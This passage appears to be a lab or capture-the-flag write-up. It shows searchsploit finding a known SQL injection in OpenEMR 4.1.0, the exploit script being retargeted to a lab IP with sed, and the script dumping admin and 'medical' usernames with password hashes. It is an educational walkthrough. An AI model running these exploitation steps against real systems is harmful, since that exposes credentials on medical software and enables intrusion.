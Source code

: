I looked for a known vulnerability for this version and a SQL Injection was found.

```bash
root@kali:~$ searchsploit openemr 4.1.0
----------------------------------------------------------- --------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- --------------------------
OpenEMR 4.1.0 - 'u' SQL Injection                          | php/webapps/49742.py
Openemr-4.1.0 - SQL Injection                              | php/webapps/17998.txt
----------------------------------------------------------- --------------------------
```

So, I copied the python exploit to my current directory.

```bash
root@kali:~$ searchsploit -m php/webapps/49742.py
root@kali:~$ cp 49742.py exp.py
```


## Exploitation
### SQL Injection

I analyzed the script, we just need to replace the IP address with the target machine's ip.

```bash
root@kali:~$ sed -i 's/192.168.56.106/192.168.179.163/' exp.py 
root@kali:~$ grep 192 exp.py                                
url = "http://192.168.179.163/openemr/interface/login/validateUser.php?u="
```

I ran the exploit and the credentials of two users were retrieved.

```bash
root@kali:~$ python3 exp.py 

   ____                   ________  _______     __ __   ___ ____ 
  / __ \____  ___  ____  / ____/  |/  / __ \   / // /  <  // __ \
 / / / / __ \/ _ \/ __ \/ __/ / /|_/ / /_/ /  / // /_  / // / / /
/ /_/ / /_/ /  __/ / / / /___/ /  / / _, _/  /__  __/ / // /_/ / 
\____/ .___/\___/_/ /_/_____/_/  /_/_/ |_|     /_/ (_)_(_)____/  
    /_/
    ____  ___           __   _____ ____    __    _               
   / __ )/ (_)___  ____/ /  / ___// __ \  / /   (_)              
  / /_/ / / / __ \/ __  /   \__ \/ / / / / /   / /               
 / /_/ / / / / / / /_/ /   ___/ / /_/ / / /___/ /                
/_____/_/_/_/ /_/\__,_/   /____/\___\_\/_____/_/   exploit by @ikuamike 

[+] Finding number of users...
[+] Found number of users: 2
[+] Extracting username and password hash...
admin:3863efef9ee2bfbc51ecdca359c6302bed1389e8
medical:ab24aed5a7c4ad45615cd7e0da816eea39e4895d
```
